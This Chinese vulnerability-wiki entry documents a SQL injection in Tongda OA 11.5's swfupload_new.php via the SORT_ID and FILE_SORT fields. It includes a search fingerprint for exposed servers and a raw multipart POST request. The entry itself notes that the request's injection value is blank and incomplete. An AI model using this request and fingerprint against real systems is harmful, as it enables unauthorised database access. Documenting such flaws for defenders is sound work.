

# 通达OA swfupload_new SORT_ID/FILE_SORT SQL 注入

## 条目说明

- 对象与具体问题：通达OA；swfupload_new SORT_ID/FILE_SORT SQLi
- 版本、配置及部署条件：11.5
- 认证与权限前提：无Cookie示例，未解释
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- multipart字段完整但SORT_ID值空白，无注入表达式，不足独立复现
- 正文无根因/差分响应；可补229已丢字段但不能补缺载荷
- 缺修复版本

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

通达OA v11.5 swfupload_new.php 文件存在SQL注入漏洞，攻击者通过漏洞可获取服务器敏感信息

### 漏洞影响

```
通达OA v11.5
```

### 网络测绘

```
app="TDXK-通达OA"
```

### 漏洞复现

登陆页面


发送请求包触发漏洞

```http
POST /general/file_folder/swfupload_new.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Type: multipart/form-data; boundary=----------GFioQpMK0vv2
Accept-Encoding: gzip

------------GFioQpMK0vv2
Content-Disposition: form-data; name="ATTACHMENT_ID"

1
------------GFioQpMK0vv2
Content-Disposition: form-data; name="ATTACHMENT_NAME"

1
------------GFioQpMK0vv2
Content-Disposition: form-data; name="FILE_SORT"

2
------------GFioQpMK0vv2
Content-Disposition: form-data; name="SORT_ID"

------------GFioQpMK0vv2--
```

> 请求长度说明：原资料 Content-Length 为 355；静态长度已移除，应由客户端根据最终请求体的字节数生成。



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
